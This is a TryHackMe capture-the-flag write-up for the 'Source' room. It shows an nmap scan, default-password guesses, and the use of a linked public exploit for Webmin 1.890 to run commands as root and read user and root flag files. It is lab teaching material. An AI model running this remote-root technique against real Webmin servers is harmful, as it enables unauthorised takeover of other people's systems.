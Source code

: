 ```yaml
---
title: "TryHackMe: Source"
author: cilgin
date: 2025-06-21 19:48:40 +0300
categories: [CyberSecurity]
tags: [CTF, TryHackMe, Easy]
pin: true
math: false
mermaid: false
image:
  path: /assets/img/2025-06-21-TryHackMe-Source/Source.png
---
```


# Enumeration

## Nmap Scan

I start with exporting the target machine IP adress as a enviroment variable:

```bash
export IP=10.10.178.7
```

And running `nmap` scan on the target:

```bash
❯ nmap -T4 -n -sC -sV -Pn -p- $IP
Starting Nmap 7.97 ( https://nmap.org ) at 2025-06-21 19:50 +0300
Nmap scan report for 10.10.178.7
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.890
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.66 seconds
```

There is a open port `10000` for http running Webmin. So I `curl` the page first.

```bash
❯ curl http://$IP:10000
<h1>Error - Document follows</h1>
<p>This web server is running in SSL mode. Try the URL <a href='https://ip-10-10-178-7.eu-west-1.compute.internal:10000/'>https://ip-10-10-178-7.eu-west-1.compute.internal:10000/</a> instead.<br></p>
```

But site is not working on http so I try http.

```bash
❯ curl https://$IP:10000
curl: (60) SSL certificate problem: self-signed certificate
More details here: https://curl.se/docs/sslcerts.html

curl failed to verify the legitimacy of the server and therefore could not
establish a secure connection to it. To learn more about this situation and
how to fix it, please visit the webpage mentioned above.
```

And It's using self-signed certificates. I guess using browser is better from there.
So I hop into my browser and go the path with https.
![Desktop View](/assets/img/2025-06-18-TryHackMe-Source/photo1.png){: width="972" height="589" }

## Trying to log in as a admin

Like everyone I tried:

- admin:admin
- admin:password

But these didn't worked out. So I googled the default password for `webmin`.

Someone on the forums said this:

```text
The default user name and password is that of your root user.
```

After that I checked webmin version the server was runnning:

```text
|_http-server-header: MiniServ/1.890
```

And googled the version for any CVE's. And I found one, also found a script that exploits that security vulnerability. Here's the github repo for the script: <https://github.com/n0obit4/Webmin_1.890-POC/blob/master/Webmin_exploit.py>

```bash
❯ python script.py -host $IP -port 10000 -cmd id

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
```

And we got access with root.

## Gaining Flags

For user:

```bash
❯ python fuck.py -host $IP -port 10000 -cmd "ls /home"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
dark


~/dev/Python via  v3.13.3 (myenv)
❯ python fuck.py -host $IP -port 10000 -cmd "ls /home/dark"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
user.txt
webmin_1.890_all.deb


~/dev/Python via  v3.13.3 (myenv)
❯ python fuck.py -host $IP -port 10000 -cmd "cat /home/dark/user.txt"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
THM{*******************}
```

For root:

```bash
❯ python fuck.py -host $IP -port 10000 -cmd "cat /root/root.txt"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
THM{*******************}
```

Easy as that. Thanks you for reading my solution.
